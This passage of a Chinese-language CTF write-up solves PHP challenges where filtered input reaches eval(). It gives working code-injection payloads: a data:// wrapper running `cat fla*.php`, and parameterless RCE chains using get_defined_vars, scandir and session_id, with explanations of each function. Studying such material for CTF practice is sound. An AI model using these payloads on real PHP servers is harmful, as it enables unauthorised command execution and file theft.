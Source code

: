 后面的.php是不需要的，所以直接用#注释掉即可

```php
?c=data://text/plain,<?php echo `cat fla*.php`?>#
或
?c=data://text/plain,<?=`cat fla*.php?>`
<?=是PHP的一个短的开放式标签，是echo()的快捷用法
```

## web40(全局变量)

```php
<?php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
    }
        
}else{
    highlight_file(__FILE__);
}
```

这题可以使用无参数RCE来做

```php
?c=eval(end(current(get_defined_vars())));&key=system('cat flag.php');
利用get_defined_vars()回显全局变量，利用current利用GET方法进行RCE
官方POC：
show_source(next(array_reverse(scandir(pos(localeconv())))));
或者
GXYCTF的禁止套娃 通过cookie获得参数进行命令执行
c=session_start();system(session_id());
passid=ls
```

> 法一
>
> c=eval(array_pop(next(get_defined_vars())));//需要POST传入参数为1=system('tac fl*');
>
> get_defined_vars() 返回一个包含所有已定义变量的多维数组。这些变量包括环境变量、服务器变量和用户定义的变量，例如GET、POST、FILE等等。
>
> next()将内部指针指向数组中的下一个元素，并输出。
>
> array_pop() 函数删除数组中的最后一个元素并返回其值。
>
> 法二
>
> c=show_source(next(array_reverse(scandir(pos(localeconv()))))); 或者 c=show_source(next(array_reverse(scandir(getcwd()))));
>
> getcwd() 函数返回当前工作目录。它可以代替pos(localeconv())
>
> localeconv()：返回包含本地化数字和货币格式信息的关联数组。这里主要是返回值为数组且第一项为"."
>
> pos():输出数组第一个元素，不改变指针；
>
> current() 函数返回数组中的当前元素（单元）,默认取第一个值，和pos()一样
>
> scandir() 函数返回指定目录中的文件和目录的数组。这里因为参数为"."所以遍历当前目录
>
> array_reverse():数组逆置
>
> next():将数组指针指向下一个，这里其实可以省略倒置和改变数组指针，直接利用[2]取出数组也可以